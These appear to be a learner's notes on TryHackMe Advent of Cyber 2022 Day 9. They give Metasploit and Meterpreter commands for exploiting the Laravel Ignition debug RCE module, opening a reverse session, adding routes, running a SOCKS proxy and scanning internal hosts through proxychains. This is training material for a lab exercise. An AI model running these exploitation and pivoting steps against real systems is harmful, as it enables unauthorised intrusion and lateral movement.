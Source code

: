 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #TryHackMe #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Meterpreter to pivot
Metasploit has an internal routing table that can be modified with `route` command. This determines where to send network traffic through.
```Metasploit Commands
# Example usage
route [add/remove] subnet netmask [comm/sid]

# Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
route add 172.17.0.1/32 -1

# Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
route add 172.28.10.48/29 -1

# Output the routing table
route print
```

## Socks Proxy
Intermediate server that supports relaying networking traffic between two machines. Allows the implementation of pivoting technique. You can run Socks Proxy locally or in the compromised system. This can be achieved using `auxiliary/server/socks_proxy` module.

```Metasploit Commands
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

Tools such as `curl` supports sending requests through a socks proxy server via `--proxy` flag.
```sh
curl --proxy socks4a://localhost:9050 http://10.10.40.65
```

ProxyChain can intercept the tool's request to open a new network connection and route the request through a socks proxy instead.
```sh
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 10.10.40.65
```

# Challenge
## Port scanning
```sh

```